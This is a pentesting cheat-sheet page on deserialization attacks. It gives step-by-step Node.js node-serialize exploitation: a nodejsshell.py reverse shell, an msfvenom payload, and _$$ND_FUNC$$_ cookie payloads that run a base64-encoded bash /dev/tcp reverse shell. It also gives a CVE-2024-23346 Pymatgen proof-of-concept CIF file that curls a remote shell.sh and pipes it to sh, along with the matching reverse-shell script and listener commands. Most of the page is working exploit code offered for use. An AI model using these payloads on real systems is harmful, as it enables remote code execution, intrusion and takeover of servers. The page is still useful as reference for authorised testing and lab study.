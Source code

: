 ```yaml
---
description: >-
  Deserialization vulnerability occurs when untrusted data is deserialized,
  allowing attackers to execute arbitrary code or manipulate the application’s
  behavior.
icon: link-slash
---
```


# Deserialization

{% hint style="info" %}
### <mark style="color:orange;">`nodejs`</mark>

* <mark style="color:purple;">Install</mark> <mark style="color:orange;">**`node-serialize`**</mark><mark style="color:purple;">:</mark>

```sh
npm install node-serialize
```

***

[<mark style="color:orange;">**`nodejsshell.py`**</mark>](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) <mark style="color:purple;">**Method:**</mark>

1. <mark style="color:purple;">Create the node reverse shell:</mark>

```sh
python3 nodejsshell.py 10.10.16.8 4444
```

1. <mark style="color:purple;">Once you have a serialized reverse shell, add it to this function:</mark>

{% code overflow="wrap" %}
```javascript
var y = {
  rce: function(){ADD/THE/PAYLOAD/HERE}
}
var serialize = require('node-serialize');
var s = serialize.serialize(y)
console.log("Serialized: \n" + s.slice(0,-2) + "()" + s.slice(-2,));
```
{% endcode %}

3. <mark style="color:purple;">Now serialize convert to</mark> <mark style="color:orange;">**`base64`**</mark> <mark style="color:purple;">the exploit using</mark><mark style="color:purple;">**:**</mark>

```sh
node exploit.js | tail -n +2 | base64 -w0
```

***

* <mark style="color:orange;">**`msfvenom`**</mark> <mark style="color:purple;">also has a module to generate payloads:</mark>

{% code overflow="wrap" %}
```sh
msfvenom -p nodejs/shell_reverse_tcp LHOST=10.10.14.10 LPORT=1337 -o shell.js
```
{% endcode %}

* <mark style="color:purple;">Another great tool is</mark> [<mark style="color:orange;">**`ysoserial`**</mark>](https://github.com/frohoff/ysoserial)

***

* <mark style="color:purple;">Another way is to get command execution is by using this function:</mark>

{% code overflow="wrap" %}
```javascript
{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('ls /',
function(error, stdout, stderr) { console.log(stdout) });}()"}
```
{% endcode %}

* <mark style="color:purple;">We can generate a reverse shell out of this by encoding the command first to</mark> <mark style="color:orange;">**`base64`**</mark><mark style="color:purple;">:</mark>&#x20;

```sh
echo 'bash -i >& /dev/tcp/10.10.16.8/4444 0>&1' | base64
```

* <mark style="color:purple;">Now add that string to the function like this:</mark>

{% code overflow="wrap" %}
```javascript
{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi44LzQ0NDQgMD4mMQo=|base64 -d|bash',
function(error, stdout, stderr) { console.log(stdout) });}()"}
```
{% endcode %}

* <mark style="color:purple;">Now</mark> <mark style="color:orange;">**`URL`**</mark> <mark style="color:purple;">encode the payload and add it to the cookie.</mark>
{% endhint %}

***

<details>

<summary><mark style="color:orange;"><strong><code>Pymatgen</code></strong></mark></summary>

* <mark style="color:orange;">**`Pymatgen (Python Materials Genomics)`**</mark> <mark style="color:purple;">is an open-source Python library for materials analysis.</mark>

#### [<kbd><mark style="color:red;">`CVE-2024-23346`<mark style="color:red;"></kbd>](https://nvd.nist.gov/vuln/detail/CVE-2024-23346)

* <mark style="color:purple;">A critical security vulnerability exists in the</mark> <mark style="color:orange;">**`JonesFaithfulTransformation.from_transformation_str()`**</mark> <mark style="color:purple;">method.</mark>
* <mark style="color:purple;">This method insecurely utilizes</mark> <mark style="color:orange;">**`eval()`**</mark> <mark style="color:purple;">for processing input, enabling execution of arbitrary code when parsing untrusted input.</mark>

{% hint style="info" %}
<mark style="color:purple;">Version:</mark> <mark style="color:red;">**`prior to 2024.2.20`**</mark>
{% endhint %}

* [<kbd><mark style="color:orange;">**More info**<mark style="color:orange;"></kbd>](https://ethicalhacking.uk/cve-2024-23346-arbitrary-code-execution-in-pymatgen-via-insecure/#gsc.tab=0)

{% hint style="info" %}
<mark style="color:red;">**`Poc`**</mark>

* <mark style="color:purple;">There is a security advisory in</mark> [<kbd><mark style="color:orange;">**GitHub**<mark style="color:orange;"></kbd>](https://github.com/advisories/GHSA-vgv8-5cpj-qj2f) <mark style="color:purple;">about</mark> <mark style="color:red;">**`Arbitrary code execution`**</mark> <mark style="color:purple;">when parsing</mark> [<mark style="color:orange;">**`CIF`**</mark>](#user-content-fn-1)[^1] <mark style="color:purple;">files:</mark>

{% code title="Example" overflow="wrap" %}
```python
data_5yOhtAoR
_audit_creation_date 2018-06-08
_audit_creation_method "Pymatgen CIF Parser Arbitrary Code Execution
Exploit"
loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]
_space_group_magn.transform_BNS_Pp_abc 'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( * [().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("curl http://185.107.57.7:9000/shell.sh|sh");0,0,0'
_space_group_magn.number_BNS 62.448
```
{% endcode %}

* <mark style="color:purple;">Create the reverse shell:</mark>

{% code overflow="wrap" %}
```bash
echo -ne '#!/bin/bash\n/bin/bash -c "/bin/bash -i >& /dev/tcp/185.107.57.7/9001
0>&1"' > shell.sh
```
{% endcode %}

* <mark style="color:purple;">Then start a Python web server to host our newly created payload:</mark>

```sh
sudo python3 -m http.server 9000
```

* Run the listener:

```bash
nc -lvnp 9001
```

* <mark style="color:purple;">Upload the malicious</mark> <mark style="color:orange;">**`CIF`**</mark> <mark style="color:purple;">file and view to trigger the reverse shell.</mark>
{% endhint %}

</details>



[^1]: * `CIF` files, or `Crystallographic Information Files`, are text-based files used to store crystallographic data.
    * They are widely used in materials science, chemistry, and structural biology for describing crystal structures.
